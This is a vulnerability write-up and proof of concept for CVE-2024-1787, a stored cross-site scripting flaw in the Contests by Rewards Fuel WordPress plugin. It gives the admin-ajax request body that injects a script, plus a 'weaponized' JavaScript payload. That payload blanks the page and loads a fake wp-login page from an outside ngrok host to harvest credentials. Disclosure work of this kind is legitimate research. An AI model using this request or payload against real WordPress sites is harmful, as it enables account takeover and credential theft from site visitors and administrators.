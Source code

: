 ## CVE-2024-1787
https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/contests-from-rewards-fuel/contests-by-rewards-fuel-2062-cross-site-request-forgery-to-stored-cross-site-scripting

### Description
> The Contests by Rewards Fuel plugin for WordPress is vulnerable to Stored Cross-Site Scripting via the 'update_rewards_fuel_api_key' parameter in all versions up to, and including, 2.0.64 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with contributor-level access and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page.

### Vulnerability Type
Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')

### Vendor of Product
Rewards Fuel

### Affected Product Code Base
Contests by Rewards Fuel <= 2.0.64

### Exploitation
An authenticated attacker can make a post request to admin-ajax, using the rf_ajax_handler action and calling "update_rewards_fuel_api_key" and modifying it to a malicious value, allowing them to have stored XSS.

### PoC

> Make a post request to wp-admin/admin-ajax.php
```
action=rf_ajax_handler&update_rewards_fuel_api_key="'><script>alert(1);</script>
```

> Weaponized XSS
```javascript
// Get all web elements
const elements = document.getElementsByTagName('*');

const body = document.body;
body.style.display = 'none';  

// Loop through all elements and hide them
for (let i = 0; i < elements.length; i++) {
    elements[i].style.display = 'none';
}

// load a remote web page
const xhr = new XMLHttpRequest();
xhr.open('GET', 'https://xxxxxx.ngrok.app/wp-login.html', true);
xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
        // Get the response and inject it into the page
        const response = xhr.responseText;
        document.body.innerHTML = response;
    }
};
xhr.send(null);
```